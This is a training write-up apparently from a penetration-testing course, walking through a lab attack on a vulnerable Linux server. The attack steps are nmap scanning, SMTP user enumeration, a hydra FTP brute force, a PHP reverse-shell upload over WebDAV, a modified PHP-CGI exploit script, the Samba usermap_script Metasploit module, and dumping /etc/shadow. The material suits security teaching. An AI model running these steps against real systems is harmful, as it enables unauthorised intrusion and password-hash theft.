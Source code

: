 # 8 - Linux Blackbox Exploitation

## <mark style="color:red;">Linux Black Box Penetration Test</mark>

### **Black Box Pentest**

* A Black box penetration test is a security assessment whereby the penetration tester is not provided with any information regarding the target system or network (No IP ranges, system information or default credentials are provided).
* The objective of a Black box penetration test is to accurately test the security of a system or network as an external unprivileged adversary.
* This approach is very useful as it demonstrates how an external attacker with no inside knowledge would compromise a company's systems or networks.

### **Penetration Testing Phases**

* The following diagram outlines the various phases involved in a typical penetration test.

### **Black Box Methodology:**

* Host discovery
* Port scanning & enumeration
* Vulnerability detection/scanning
* Exploitation
* Manual
* Automated
* Post Exploitation
* Privilege Escalation
* Persistence
* Dumping Hashes

### **Scenario & Scope**

* You have just begun your first job as a Junior Penetration Tester and have been assigned to assist in performing a penetration test on a client's network.
* The pentest lead was pleased with your ability to gain access to the Windows Server target and has assigned you to perform a pentest on a Linux server on the client's network.
* Your primary objectives are:
  * Identify services running on the target
  * Identify vulnerabilities within the services
  * Exploit these vulnerabilities to obtain an initial foothold.



## Practical Demonstration

#### <mark style="color:yellow;">Black Box Port Scanning & Enumeration</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat /etc/hosts # identify target ip addr, ping for connectivity.
nmap -sV -p1-10000 $ip -oN nmap_10k.txt # scan target.
nc -nv $ip <port> # banner grabbing ports/services nmap was unable to identify.
# in the process we were able to connect to a bind shell listener on the target on port 1524. Always perform banner grabbing with nc.
root@24wfww> ls
cat /etc/*release # distribution version.
cd /home # view users.

```
{% endcode %}

#### <mark style="color:yellow;">1 - Targeting vsftpd</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# anonymous access worked.
# searchsploit vsftpd, we tried running the exploit module, but didn't work. the backdoor was disabled by the admin (port 6200 was closed).

# another way is to perform bruteforce.
# an easy way is to exploit SMTP, which is an easy way of discovering user accts in a target PC, which can help us narrow down out bruteforce attack.

# lets do a bruteforce on SMTP and identify user accts using Metasploit.
search smtp_enum
use 0, you can modify the user wordlist, set RHOSTS, run
# we can utiize the list and narrow our bruteforce for other service like FTP.

# FTP bruteforce
hydra -l service -P ...unix_users.txt $ip ftp # we get a password.
ftp $ip 21 # login to ftp.
cd / # go to the root and look around. 

# we can now look at the WebDAV, to upload a php file and gain reverse shell.
ls /usr/share/webshells/php/php-reverse-shell.php # we can use the imbuilt php reverse shell in kali, copy it, modify it and upload to the host.
nano php-rev-shell.php # modify it.

nc -nvlp 1234 # setup a nc listener

# login to ftp.
# we can cd to the dav directory to upload the payload.
cd /var/www/dav
put php-shell.php
# refresh the browser, then run the payload, we receive a borne shell sessio on our listener.
/bin/bash -i # get a bash shell.
whoami
ls
cd /var/www
ls # now we have access to the www dir, as opposed to when we were using ftp access.
```
{% endcode %}

#### <mark style="color:yellow;">2 - Targeting PHP</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# get target ip.
nmap -sV -sC -p80 $ip 
$ip # view webpage in the browser.

$ip/phpinfo.php # view the php version.
searchsploit php cgi # search got exploit. php versions lower than 5.3.12 are vulnerable to the "CGI Argument Injection".

# we will use mannual method to exploit this vuln.
searchsploit -m <exploitID> # to copy over the exploit script to current dir.
searchsploit -m 18836
nano 18836.py # view.
# replace the php code in the cgi_exploit function with a php one liner reverse shell code. Goto revshells.com to generate the code. Save and execute the script. if it dosent work, you might want to change the "descriptors" values from 3 to 4. We now have access to the "www-data" user.
cat /etc/*release # distribution version.
```
{% endcode %}

#### <mark style="color:yellow;">3 - Targeting Samba</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -p445 $ip

# using Metasploit to get the actual Samba version.
search smb_version
use 0, run # gives us the samba version.

searchsploit samba 3.0.20 # use 
use explit/multi/samba/usermap_script
exploit # we get a cmd reverse shell.
ls -al
cat /etc/*issue
cat /etc/*release
ctrl+z
sessions -u 1 # upgrade to a meterpreter session.
# and also root access.
cat /etc/passwd
cat /etc/shadow # dump hashes.
```
{% endcode %}



